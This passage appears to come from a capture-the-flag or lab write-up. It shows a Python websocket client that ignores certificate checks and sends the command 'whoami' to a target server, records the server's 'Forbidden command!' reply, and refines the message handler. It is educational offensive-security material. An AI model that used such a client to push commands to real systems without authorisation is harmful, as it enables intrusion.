 ```python
    key = args.key
    ##enable verbose output##
    websocket.enableTrace(args.verbose)
    ##Create websocket connection and pass in the created functions##
    ws = websocket.WebSocketApp(args.url,
                              on_message = on_message,
                              on_error = on_error,
                              on_close = on_close,
                              on_open = on_open)
    ##Ignore the self-signed cert and connect continuously to the client##
    ws.run_forever(sslopt={"cert_reqs": ssl.CERT_NONE})
```

Executing the script, we create the connection, and send our payload "whoami":

![](../../03.%20Images/t7-ss32.png)

First, upon initial connection, the server sends a message with a type of "connection" and a payload of "Connection established".
Next, in response to the whoami command, the server _response_ contains "Forbidden command!"
Finally, the server periodically sends a _dispatcher_ message without a payload.

We will edit our on\_message function, and clean up the output:
```
def on_message(ws, message):
    mes = json.loads(message)

    if "uniqid" in mes.keys():
        uniqid = mes["uniqid"]
    
    if mes["type"] == "connection":
        print("[+] Connected!")
    elif mes["type"] == "dispatcher":
        pass
    elif mes["type"] == "response":
        print(mes["payload"], end = '')
    else:
        print(mes)
```
